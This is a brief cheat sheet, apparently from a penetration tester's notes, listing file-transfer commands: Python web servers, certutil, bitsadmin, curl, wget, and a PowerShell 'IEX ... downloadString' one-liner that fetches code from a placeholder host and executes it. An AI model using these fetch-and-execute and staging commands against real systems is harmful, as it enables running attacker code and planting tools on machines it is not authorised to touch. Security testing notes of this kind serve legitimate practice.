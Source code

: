 # File transfer

## Python web server

### python2
python -m SimpleHTTPServer 9000

### python3
python3 -m http.server 9000

## Windows file transfer

### certutil
certutil.exe —urlcache —f http://<webpage>/file.txt file.txt

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

### bitsadmin
bitsadmin /transfer myDownloadJob /download /priority normal https://www.hkrefill.com/images/billboard/cheapselftake.gif "C:\Users\helpdesk\Downloads\cheap.gif"

### curl
curl  "https://www.hkrefill.com/images/billboard/cheapselftake.gif" --output abc.gif

### powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<webpage>:8000/file.txt')"

## Linux file transfer
wget http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

wget -O wget.zip http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

file contains dl link
wget -i download-linux.txt